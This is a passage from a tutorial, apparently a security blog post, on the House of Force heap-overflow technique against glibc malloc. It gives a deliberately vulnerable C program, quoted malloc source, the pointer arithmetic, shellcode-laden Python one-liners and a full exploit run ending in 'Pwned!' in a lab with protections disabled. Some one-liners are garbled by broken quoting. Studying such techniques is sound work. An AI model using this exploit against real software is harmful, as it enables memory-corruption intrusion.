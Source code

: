 Ingredients:

* The exploiter must be able to overwrite the top chunk (i.e. the overflow must happen in a chunk that allows to overwrite the wilderness
* There is a malloc() call with an exploiter-controllable size
* There is another malloc() call where data are controlled by the exploiter

As you can see from the recipe, this technique is strongly based on the top chunk (a.k.a. the wilderness): as you can remember from the first article on heap overflows, the top chunk is a very peculiar one. It looks like a normal chunk, with its header followed by the data section, but, on the other side, it’s at the end of the heap and it’s the only chunk that can be extended or shortened. So, no matter what happens, the top chunk MUST always exist and that’s why it’s treated differently both by malloc() and free() (and can’t be passed as argument to free()).   

I took blackngel’s original example and slightly modified it.  
``` c
 /*
 * blackngel's original example slightly modified
 */
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void fvuln(unsigned long len, char *str, char *buf)
{
  char *ptr1, *ptr2, *ptr3;

  ptr1 = malloc(256);
  printf("PTR1 = [ %p ]\n", ptr1);
  strcpy(ptr1, str);

  printf("Allocated MEM: %lu bytes\n", len);
  ptr2 = malloc(len);
  ptr3 = malloc(256);

  strcpy(ptr3, buf);
}

int main(int argc, char *argv[])
{
  char *pEnd;
  if (argc == 4)
    fvuln(strtoull(argv[1], &pEnd, 10), argv[2], argv[3]);

  return 0;
}
```
So, the core of this technique is to overwrite av->top with an arbitrary value: in fact, once the attacker has the control over this value, if he can force a call to malloc() which uses the top chunk, he can control where the next chunk will be allocated and be able to write arbitrary bytes to any address.  

By keeping the 2.3.5 version of the malloc() implementation in mind, let’s see how it’s possible to perform the first step of this attack: overwriting av->top. At lines #3845 and #[4151](https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=e3ccbde7b5b84affbf6ff2387a5151310235f0a3;hb=1afdd17390f6febdfe559e16dfc5c5718f8934aa#l4151), there is the following code:   
``` c
 Void_t*
_int_malloc(mstate av, size_t bytes)
{
  INTERNAL_SIZE_T nb;               /* normalized request size */

[...]

  mchunkptr       victim;           /* inspected/selected chunk */
  INTERNAL_SIZE_T size;             /* its size */
  int             victim_index;     /* its bin index */

  mchunkptr       remainder;        /* remainder from a split */
  unsigned long   remainder_size;   /* its size */

[...]

  checked_request2size(bytes, nb);

[...]

  use_top:
    /*
      If large enough, split off the chunk bordering the end of memory
      (held in av->top). Note that this is in accord with the best-fit
      search rule.  In effect, av->top is treated as larger (and thus
      less well fitting) than any other available chunk since it can
      be extended to be as large as necessary (up to system
      limitations).

      We require that av->top always exists (i.e., has size >=
      MINSIZE) after initialization, so if it would otherwise be
      exhuasted by current request, it is replenished. (The main
      reason for ensuring it exists is that we may need MINSIZE space
      to put in fenceposts in sysmalloc.)
    */

    victim = av->top;
    size = chunksize(victim);

    if ((unsigned long)(size) >= (unsigned long)(nb + MINSIZE)) {
      remainder_size = size - nb;
      remainder = chunk_at_offset(victim, nb);
      av->top = remainder;
      set_head(victim, nb | PREV_INUSE |
        (av != &main_arena ? NON_MAIN_ARENA : 0));
      set_head(remainder, remainder_size | PREV_INUSE);

      check_malloced_chunk(av, victim, nb);
      return chunk2mem(victim);
    }

[...]
```
In the Malloc Maleficarum it is written that the wilderness chunk should have the highest size possible (preferably 0xFFFFFFFF). As the overflowing chunk is 256 bytes long, filling it with 264 “\xFF” characters will make it happen. Doing this has the nice consequence of handling any other large memory request inside the malloc() itself, instead of requesting an heap expansion.  

When malloc(len) will be called, the new wilderness’ location will be computed by adding the normalized requested size to the old location of the top chunk by using the chunk_at_offset macro. Once this value is computed, av->top is set to it. The important thing is to let this value to point to an area under the exploiter’s control (may be the stack, or a .got/.dtors entry, or whatever). Truth be told, this value must be 8 bytes before the target area.  

Once this is done, the pointer returned from the next malloc call will return the aforementioned value + 8 bytes (prev_size + size). This means that ptr3 will point directly to the stack or to the entry the exploiter chose or wherever desired. So, in this case, with a simple strcpy, the attacker can overwrite these interesting areas of memory.  

Years have passed by, but this bug has never been fixed in glibc: this means, that it’s time to test it on my glibc 2.20 linux box. As in the “House of Mind” post, I had to disable ASLR and to set the noexec kernel paramater to OFF. As my phylosophy has always been to disable the less possible, RELRO stays on and we won’t be able to overwrite any entry: stack time! (OK, I know that full RELRO is not on by default on gcc, so I could actually overwrite a .got entry, but anyway…)  

So, the first step is to “cook” the second application argument (argv[2]) in such a way that it overwrites the wilderness size. This is actually pretty simple, as a simple Python command can do the trick. As the whole task is performed only by the last four bytes of the string (which are set to “\xFF”), we have 256 bytes to store the shellcode.  
```
python -c 'import sys; sys.stdout.write("\x83\xec\x7f\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\x04\x05\x04\x06\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xFF" * (264 - 36))'
```
The next step is to understand which value is going to replace the returning address. But that’s, of course, ptr1‘s address (as that’s where our shellcode is). This address is printed by the code itself: Python will do the trick again.  

 `python -c 'import sys; sys.stdout.write("\x08\xB0\x04\x08`  
The last step is the trickiest one, as we need to compute the value that it’s going to be added to av->top in order to have the pushed-EIP (- 8) address as result. So, on my system, EIP was pushed at 0xFFFFCE5C and the wilderness was originally located at 0x0804B108. So, we need to compute  

`0xFFFFCE5C – 0x8 – 0x0804B108 = 0xF7FB1D4C = 4160429388`  

OK, so, we know now that nb must be equal to 4160429388. Due to the alignment that checked_request2size performs, the closest I could get to this value was 4160429384. Mmm… This means that I’m going to be 4 bytes before the returning address and that we need to change the last Python command. Anyway, in order to have 4160429388 as normalized value, I succeeded by using 4160429373.  

The previous Python command, so, becomes:  

 `python -c 'import sys; sys.stdout.write("A + "\x08\xB0\x04\x08")'`  
I know, we’re going to overwrite some variable’s value, but, at least in this scenario, it’s not that important. So, in the real end, the whole thing reduces to:  
```
 $ ./hof 4160429373 $(python -c 'import sys; sys.stdout.write("\xeb\x17\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x04\xb3\x01\x59\xb2\x06\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x50\x77\x6e\x65\x64\x21\xFF" * (264 - 36))') $(python -c 'import sys; sys.stdout.write("A + "\x08\xB0\x04\x08")')
PTR1 = [ 0x804b008 ]
Allocated MEM: 4160429373 bytes
Pwned!$
```
There you have it!  